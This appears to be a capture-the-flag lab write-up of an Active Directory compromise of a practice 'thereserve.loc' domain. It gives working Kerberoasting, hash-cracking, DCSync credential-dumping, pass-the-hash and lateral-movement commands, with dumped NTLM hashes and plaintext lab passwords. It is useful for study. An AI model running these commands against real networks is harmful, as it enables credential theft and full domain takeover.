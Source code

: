 `10.200.113.102 CORPDC.thereserve.loc corp.thereserve.loc`

# Kerberoasting 
```bash
proxychains impacket-GetUserSPNs -request -dc-ip $IP corp.thereserve.loc/laura.wood:'Password1@'
```

```bash
hashcat -m 13100 -a 0 svcScanning.hash /usr/share/wordlists/rockyou.txt --force
```

`corp.thereserve.loc/svcScanning:Password1!`
-> Go to Server1. It's rdp free account via admin privilege.

# Enum
### SMB

```bash
proxychains crackmapexec smb $IP -u svcScanning -p Password1!
SMB         10.200.113.102  445    CORPDC           [*] Windows 10.0 Build 17763 x64 (name:CORPDC) (domain:corp.thereserve.loc) (signing:True) (SMBv1:False)
SMB         10.200.113.102  445    CORPDC           [+] corp.thereserve.loc\svcScanning:Password1!

proxychains smbmap -H $IP -u svcScanning -p Password1!

[+] IP: 10.200.113.102:445      Name: 10.200.113.102                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```

### Bloodhound
-> Go to Server1. It's rdp free account via admin privilege.

# DCSync
-> Coming from Server1 since got the svcBackup account.
```bash
proxychains impacket-secretsdump corp.thereserve.loc/svcBackups:'q9nzssaFtGHdqUV3Qv6G'@$IP

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1085  ...  10.200.113.102:445  ...  OK
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Strict chain  ...  127.0.0.1:1085  ...  10.200.113.102:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1085  ...  10.200.113.102:49667  ...  OK

Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0c757a3445acb94a654554f3ac529ede:::
THMSetup:1008:aad3b435b51404eeaad3b435b51404ee:0ea3e204f310f846e282b0c7f9ca3af2:::
lisa.moore:1125:aad3b435b51404eeaad3b435b51404ee:e4c1c1ba3b6dbdaf5b08485ce9cbc1cf:::
lisa.jenkins:1126:aad3b435b51404eeaad3b435b51404ee:94ef2aa6af7f6397e4164b40afb86eef:::
```


# Root
```bash
proxychains evil-winrm -i $IP -u Administrator -H 58a478135a93ac3bf058a5ea0e8fdb71

Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:1085  ...  10.200.113.102:5985  ...  OK
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
CORPDC
```

`58a478135a93ac3bf058a5ea0e8fdb71	NTLM	Password123`

# Get the left over flag

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> $username = 'Administrator'
*Evil-WinRM* PS C:\Users\Administrator\Documents> $password = ConvertTo-SecureString "Password123" -AsPlainText -Force
*Evil-WinRM* PS C:\Users\Administrator\Documents> $psCred = New-Object System.Management.Automation.PSCredential -ArgumentList ($username, $password)
*Evil-WinRM* PS C:\Users\Administrator\Documents> Enter-PSSession -ComputerName WRK1 -Credential $psCred
You are currently in a Windows PowerShell PSSession and cannot use the Enter-PSSession cmdlet to enter another PSSession.

*Evil-WinRM* PS C:\Users\Administrator\Documents> $session = New-PSSession -ComputerName WRK1.corp.thereserve.loc -Authentication Negotiate -Credential $psCred

*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Command -Session $session -ScriptBlock {hostname}

WRK1
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Command -Session $session -ScriptBlock {echo "8020790e-920a-42ca-8205-956041a7b4d5" | Set-Content C:\Users\Administrator\AlvinSmith.txt}
```
# Sum up

So far the entire Corporate Division compromised. 

1. The WebServer can be used to build a userlist, and we have the password policy.
2. The MailServer has an open SMTP port, resulting in a brute force attack to gain access to the user `laura`.`
3. WRK1 allows RDP access as `laura`.
4. The VPNServer can be logged in using the same credentials.
5. The VPNServer panel has a command injection vulnerability and can be exploited to achieve remote code execution and gain root access. Setup pivoting after root.
7. DC suffers Kerberoasting, therefore get another footholder user svcScanning for Server1
8. Server1 Lateral movement with `secretdump` to get another user who has DCSync privilege. 
9. The DC was fully compromised through a DCSync attack by using `svcBackups` user.